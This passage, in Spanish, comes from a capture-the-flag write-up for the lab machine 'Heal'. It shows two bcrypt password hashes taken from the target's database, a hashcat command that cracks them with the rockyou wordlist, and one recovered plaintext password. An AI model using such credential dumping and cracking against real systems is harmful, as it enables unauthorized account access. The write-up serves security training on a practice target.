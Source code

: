 para ambas bases de datos, la ruta es igual:
<img src='/images/writeup-heal/Pasted image 20250511114805.png'>

la base de datos, dado que no es tan grande en la misma respuesta podemos alcanzar a sacar datos:

```
ralph@heal : $2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
test@heal : $2a$12$eXeY49S9LZnIaxnEfeN.6ecOg25vI/zRr/ot27AQvOC8.hR9emvYe
```

pasándolos por hashes.com para ver el tipo de hash, nos dice:
<img src='/images/writeup-heal/Pasted image 20250511121127.png'>

vamos con hashcat
```bash
hashcat hash /usr/share/wordlists/rockyou.txt -m 3200
```
```
ralph@heal.htb : $2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG : 147258369
test@heal.htb : $2a$12$eXeY49S9LZnIaxnEfeN.6ecOg25vI/zRr/ot27AQvOC8.hR9emvYe : sin resultados
```

para descartar he probado ssh, pero sin resultados

vamos a los logins

en el principal:
